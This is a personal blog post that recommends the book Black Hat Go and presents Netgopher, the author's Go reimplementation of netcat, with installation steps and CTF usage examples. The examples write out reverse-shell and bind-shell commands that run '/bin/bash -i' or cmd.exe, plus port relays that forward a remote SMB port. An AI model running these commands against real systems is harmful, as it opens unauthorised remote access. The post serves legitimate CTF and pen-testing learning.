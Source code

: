 ---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
--

NOTE - very excellent gophers from [egonelbre](https://github.com/egonelbre), who has made these public, nice!

# What's all this about?

This week, I dug out my copy of Black Hat Go, a book I've been getting roudn to reading for an age, and I loved the first couple of chapters so much I thought I'd recommend it. 

{% include feature_row id="feature_row1" type="left" %}

NOTE - The very excellent animated gopher is from [egonelbre](https://github.com/egonelbre), who has made these public, nice!

## How will this change my life?

If you're into your security, particularly form an offensive side, using Go will add a really nice new skillset to your toolbox. Go will let you build tools (simple or complex, up to you!) that compile to a single 'blob', run fast and  manage lot's of the hard programming (concurrency included) for you.  

I'd suggest that working witih Go like this is probably most useful for people who are comfortable working with Bash or maybe a little bit of Python, but don't let that hold you back if you're keen.  I've gone through the first chapter or two so far and in just a few evenings, the book has guided me through some really nice simple TCP tooling. 

# Netgopher

This is where Netgopher comes in; this is my super simple implementation of Netcat, built using Go. Most of the Netcat 'extra features' are not included, but I've kept it to those things I find most useful during a CTF, TCP connections, execution and port relays. 

![Example gif of relay usage](assets/images/posts/netgopher/relay.gif)

You can get NetGopher as set out below; the rest of this post is actually en excerpt from the README on the [Github Repo](https://github.com/blackfell/ng){:target="_blank"}

# Installation

You can **but probably shouldn't**  get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well this will only install ng in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. 

I wrote this version to use during CTFs meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/conneciton pair:

![Listener & connect example image](assets/images/posts/netgopher/basic.gif)

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
# Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# Feedback?
Issues, pulls, emails, tweets all welcome!
